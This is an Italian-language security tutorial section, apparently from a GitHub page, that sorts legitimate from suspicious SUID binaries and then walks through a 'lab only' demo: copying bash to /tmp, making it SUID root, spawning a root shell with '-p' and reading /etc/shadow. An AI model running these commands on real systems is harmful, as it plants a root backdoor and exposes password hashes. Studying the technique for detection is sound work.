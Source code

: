 ### File SUID Legittimi vs Sospetti

**✅ File SUID Legittimi (standard sistema):**
- `/usr/bin/passwd` - Cambio password utenti
- `/usr/bin/sudo` - Escalation privilegi controllata  
- `/usr/bin/su` - Switch user
- `/usr/bin/mount/umount` - Montaggio filesystem
- `/usr/bin/chage` - Gestione scadenza password

**⚠️ File SUID Potenzialmente Pericolosi:**
- `/usr/lib/chromium/chrome-sandbox` - Vulnerabile in versioni pre-2016
- `/usr/lib/dbus-daemon-launch-helper` - Problemi in vecchie versioni
- `/usr/bin/fusermount/fusermount3` - FUSE filesystem mounting
- `/usr/lib/virtualbox/VBox*` - VirtualBox (potenziali vulnerabilità)

**🚨 Path ALTAMENTE Sospetti:**
- `/tmp/*` con SUID = 🚩 PROBABILE MALWARE
- `/var/tmp/*` con SUID = 🚩 BACKDOOR POSSIBILE
- File SUID in directory scrivibili da tutti = PERICOLO

### Exploit SUID Simulation (SOLO LABORATORIO)

#### Creazione Shell SUID Root
```bash
# ⚠️ ATTENZIONE: Solo per scopi didattici in ambiente isolato

# 1. Copia bash in /tmp
cp /bin/bash /tmp/rootshell

# 2. Cambia ownership a root (richiede sudo)
sudo chown root:root /tmp/rootshell

# 3. Imposta SUID bit
sudo chmod +s /tmp/rootshell

# 4. Verifica permessi
ls -la /tmp/rootshell
# Output: -rwsr-sr-x 1 root root 1100536 19 lug 11.59 /tmp/rootshell
```

#### Esecuzione Privilege Escalation
```bash
# Esegui shell con privilegi
/tmp/rootshell -p

# Verifica escalation
id
# Output: uid=1000(user) gid=1000(user) euid=0(root)

# Test accesso root
cd /root  # Accesso directory root
whoami    # Dovrebbe mostrare root capabilities
cat /etc/shadow  # Lettura file riservati
```
